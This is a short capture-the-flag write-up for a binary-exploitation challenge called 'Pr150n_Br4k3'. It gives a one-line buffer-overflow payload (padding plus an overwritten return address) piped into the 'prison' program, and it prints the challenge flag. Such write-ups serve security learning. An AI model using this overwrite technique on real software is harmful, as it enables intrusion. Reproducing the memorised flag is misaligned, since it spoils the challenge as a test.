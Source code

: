 # Pr150n_Br4k3

Author: [NithinChowdary](https://github.com/nithinchowdary007)

## Description
Really? Do u really want to break the prison you built on your own? Your insane!


## Sources

- [prison](./bin/prison)
- [prison.c](./bin/prison.c)

## Exploit
```sh
(python -c 'print("1\n1\n1\n1\n1\n " + "a"*166 + "\xb2\x11\x40\x00\x00\x00\x00")'; cat )| ./prison

```

The flag is:

```
wtfCTF{Pr150n3rs_35c4p3d_b3f0r3_3v3n_3nt3r1n8}
```
